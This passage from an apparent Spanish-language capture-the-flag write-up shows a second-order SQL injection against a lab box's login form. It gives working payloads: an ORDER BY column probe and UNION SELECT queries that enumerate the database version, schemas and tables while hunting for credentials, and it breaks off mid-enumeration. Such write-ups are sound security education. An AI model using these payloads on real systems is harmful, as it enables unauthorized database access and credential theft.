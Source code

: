 Con los resultados del escaneo anterior de Nmap, logramos identificar varios servicios interesantes corriendo en el servidor victima; entre ellos esta el puerto 80 (HTTP) y el 2222 (SSH).    
Cuando visitamos la página web que esta corriendo en el puerto 80, encontramos una página de inicio de sesión.  

<figure>
  <img src="{{site.baseurl}}/img/WebPage80.png">
	<figcaption>
    <a href="{{site.baseurl}}/img/WebPage80.png" title="Pagina web encontrada en el puerto 80">Pagina web encontrada en el puerto 80</a>.
  </figcaption>
</figure>

## Inyectando codigo SQL en un aplicativo web

Después de probar algunos comandos de inyección SQL, encontramos que esta página es vulnerable a la "inyección SQL de segundo orden". Esto significa que para aprovechar esta vulnerabilidad, tenemos que registrar a un usuario con nuestra consulta de inyección SQL y luego iniciar sesión con el mismo nombre de usuario, para finalmente ver las salidas de las consultas realizadas.  
A continuacion, muestro como detectar un formulario vulnerable a una inyeccion SQL de segundo orden usando la comilla típica.  

<figure>
  <img src="{{site.baseurl}}/img/SQL-ErrorNightmare.gif">
	<figcaption>
    <a href="{{site.baseurl}}/img/SQL-ErrorNightmare.gif" title="Detectando un formulario vulnerable a inyecciones SQL">Detectando un formulario vulnerable a inyecciones SQL</a>.
  </figcaption>
</figure>

El primer paso para poder empezar a realizar consultas a la base de datos por medio de este formulario vulnerable, es identificar el número de campos con **order by**.

{% highlight sql %}
Sephiroth')order by 2#
{% endhighlight %}

Cuando iniciamos sesión con la carga util anterior, encontramos que no tenemos un error de SQL lo que significa que la tabla tiene 2 columnas.

<figure>
  <img src="{{site.baseurl}}/img/SQL-ErrorNightmare2.gif">
	<figcaption>
    <a href="{{site.baseurl}}/img/SQL-ErrorNightmare2.gif" title="Detectando un formulario vulnerable a inyecciones SQL">Detectando un formulario vulnerable a inyecciones SQL</a>.
  </figcaption>
</figure>

Luego de identificar el numero de campos, podemos empezar a enumerar la base de datos.  
Las siguientes cargas utiles nos ayudaron a encontrar una tabla con credenciales.  

{% highlight sql %}
-- Sephiroth')union select all 1,@@version#
SELECT @@version
--Version actual corriendo en el motor de base de datos

--Sephiroth')union select all 1,database()#
SELECT database()
--Nombre de la base de datos actual

-- Sephiroth')union select all 1,table_schema from information_schema.tables#
SELECT table_schema, table_name FROM INFORMATION_SCHEMA.tables
-- Listando todas las base de datos

-- Sephiroth')union select all 1,table_name from information_schema.tables where table_schema='sysadmin'#